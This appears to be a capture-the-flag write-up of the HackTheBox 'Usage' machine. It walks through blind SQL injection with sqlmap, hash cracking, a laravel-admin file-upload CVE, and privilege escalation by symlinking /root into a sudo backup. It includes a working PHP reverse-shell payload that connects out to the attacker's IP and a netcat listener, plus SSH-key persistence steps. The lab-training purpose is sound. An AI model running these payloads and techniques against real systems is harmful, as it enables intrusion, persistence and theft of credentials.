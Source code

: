 <p style="text-align: center"><a href = "https://gafabic.github.io/Projects/index"><img src= "https://img.shields.io/badge/Projects-teal?style=for-the-badge"></a><a href="https://gafabic.github.io"><img src="https://img.shields.io/badge/Home-green?style=for-the-badge"></a><a href = "https://gafabic.github.io/Writeups/index"><img src = "https://img.shields.io/badge/Writeups-teal?style=for-the-badge"></a></p>

# HackTheBox - Usage
---

## Initial Enumeration

After starting the machine, we are provided with an IP of **10.10.11.18**.

An initial scan `(nmap -p- -Pn --disable-arp-ping --min-rate 300 --stats-every=5s 10.10.11.18)` reveals open ports 22 and 80. A follow-up scan to further enumerate `(sudo nmap -O -sV -p 22,80 10.10.11.18)` provides the following details:

![](img/Usage1.png)

Further research provides no known vulnerabilities for either of these services, nor kernel exploits for the OS.

Attempting to view the web service gets an error, but provides us with the domain of **usage.htb** – adding this to our **/etc/hosts** file enables us to view the following on the web service:

![](img/Usage2.png)

Further fingerprinting on the webservice using _whatweb_ as well as looking through the page source provides the following information:

![](img/Usage3.png)

Unable to find any known vulnerabilities for this technology stack, we take a look at the functionality of the rest of the webpage. Initially we check each field for SQLi in each field in the login fields using a variety of payloads ([very useful set of payloads found here](https://github.com/payloadbox/sql-injection-payload-list)), and find nothing.

Checking for SQLi under the password reset link, however, nets us the following:

![](img/Usage4.png)

Here, we have evidence that the email field in the POST request to **/forget-password** is vulnerable to a blind, time-based SQLi attack. This will prove to be considerably harmful to data confidentiality.

---
## Initial Compromise

We use our browser proxy to save an intercepted POST request, and use it to run an attack using sqlmap `(sqlmap -r ForgotPasswordPOST -p email –level=5)`. This discovers that a time-based blind injection with an eight-clause UNION query is able to enumerate database information. Doing so, we are able to enumerate the entire database. Of particular note is the following, from the **usage_blog.admin_users** table:

![](img/Usage5.png)

We can crack this hash with _johntheripper_ and the _rockyou.txt_ wordlist, getting us the password **whatever1**.

We would not have been able to crack this without significant time and compute resources had a better password policy been enforced.

This allows us to login to the admin dashboard using the **admin** username. From that dashboard, we are presented with a good deal of new information about the technology stack used in this website:

![](img/Usage6.png)

After some investigation, we come across [CVE-2023-24249](https://flyd.uk/post/cve-2023-24249/) related to the **encore/laravel-admin** package, indicating that we can arbitrarily upload php scripts to the server to attain arbitrary code execution.

We create the following script to give us a remote shell:
```html
<html>
	<body>
		<?PHP system('php -r \'$sock=fsockopen(“10.10.14.11”,1337);exec(“sh <&3 >&3 2>&3”);\''); ?>
	</body>
</html>
```

We save this script with a .jpg extension and then attempt to upload it via the admin area's user avatar upload interface. Capturing this request, we permit it to run, then replay it, adding a “.php” to the end of the file.

![](img/Usage7.png)

Refreshing the upload interface, we now can see that our script has been uploaded.

![](img/Usage8.png)


We now start a netcat listener on our machine `(nc -lvnp 1337)`. By clicking the download link (or navigating to **/uploads/images/script.jpg.php**), we execute our script and can see that we have gained a reverse shell.

![](img/Usage9.png)

Now that we have remote access with the user **dash**, we stabilize our access and gain persistence by adding our public ssh key to the user's **/home/user/.sh/authorized_keys** file. We can now log in to the server as dash with full terminal functionality whenever we like.

---
## Privilege Escalation

Further enumeration shows that there is another user on this machine, **xander**. By sifting through log and configuration files, we find a number of passwords written in plaintext. It is with the password **3nc0d3d_pa$$w0rd** found in **/home/dash/.monitrc** that we are able to log in as xander.


Doing a little bit of investigation into the xander user reveals that, unlike dash, xander has limited access to sudo:

![](img/Usage10.png)

Naturally, anything that we can execute as a superuser merits further investigation. Running the command (without sudo rights, to limit possible damage caused by executing an unknown binary) nets us the following:

![](img/Usage11.png)

We have selected to use the **Project Backup** option as there is nothing in the MySQL database that we do not already have access to, nor do we want to necessarily reset the admin password just yet and possibly cause undo interference with the normal administration of the machine.

The backup option does seem to attempt to create a zip file in **/var/backups**. If running it requires superuser permissions, it is possible some interesting files may end up in that backup. We run the backup again, this time with sudo functionality. We go to the backup, unzip it, and investigate. We do not have permissions to write in the folder where it was made, so we will copy it to xander's home directory and unzip there. When unzipped, we find backups of the contents of **/var/www/html/**. We already had full read/write access to these files as dash. However, since this backup was made with superuser functionality, this gives us an opportunity.

As dash, we go to the **/var/www/html/** directory and, in it, create a symlink to **/root/**. Then, logged back into xander, we run the project backup once again. This time, when unzipped, the project backup contains the contents of the **/root/** folder, complete with .ssh folder, which contains the root user's public and private keys.

![](img/Usage12.png)

From here, we can use the keys to log in to root via ssh from out attacking machine, providing complete control over the server.

![](img/Usage13.png)